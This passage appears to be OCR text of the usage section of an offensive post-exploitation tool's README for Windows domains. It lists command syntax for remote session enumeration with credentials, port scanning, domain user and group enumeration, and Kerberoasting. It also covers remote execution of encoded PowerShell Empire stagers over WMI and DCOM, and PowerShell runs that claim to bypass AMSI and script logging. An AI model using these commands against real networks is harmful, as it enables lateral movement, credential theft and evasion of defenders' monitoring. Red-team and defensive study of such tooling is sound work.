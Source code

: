 ```Interact```
```NetLoggedOnUsers computerName domain\username P@55w0rd!```

```NetLoggedOnUsers 192.168.1.20 .\username P@55w0rd!```

Retrieve user sessions remotely, requires computername | username | password:

```NetSessions computerName domain\username P@55w0rd!```

```NetSessions 192.168.1.20 .\username P@55w0rd!```

Ping systems, requires computernames:

```Ping computer1 computer2 computer3 computer4```

Port scan systems, requires computername | ports:

```PortScan computer1 80 443 445 22 23```

Get Domain Users, Grabs specified (or all) user objects in the target domain, by default will use current user context. optional arguments: -username -password -domain -server -searchbase -searchstring -target:

```GetDomainUsers```

Get Domain Groups, Grabs specified (or all) group objects in the target domain, by default will use current user context. optional arguments: -username -password -domain -server -searchbase -searchstring -target:

```GetDomainGroups```

```GetDomainGroups -target "Domain Admins"```

Get Domain Computers, Grabs specified (or all) computer objects in the target domain, by default will use current user context. optional arguments: -username -password -domain -server -searchbase -searchstring -target:

```GetDomainComputers```

Perform Kerberoasting, Performs a kerberoasting attack against targeted (or all) user objects in the target domain, by default will use current user context. optional arguments: -username -password -domain -server -searchbase -searchstring -target

```Kerberoast```

```Kerberoast -username bob -password Password1 -domain test.corp -server 192.168.1.10 -target sqlService```

Run command remotely via WMI, requires computername | username | password | command - requires admin:

```WMI computer1 domain\username P@55w0rd! <entire powershell empire payload>```

```WMI computer1 .\username P@55w0rd! powershell -noP -sta -w 1 -enc <Base64>```

Run command remotely via DCOM, requires computername | command | directory | params - requires admin:

```DCOM computer1 cmd.exe c:\Windows\System32 powershell -noP -sta -w 1 -enc <Base64>```

Run shell command:

```Shell ipconfig /all```

Run powershell command while attempting to bypass AMSI, scriptBlock logging, and Module logging:

```Powershell -noP -sta -w 1 -enc <Base64>```

```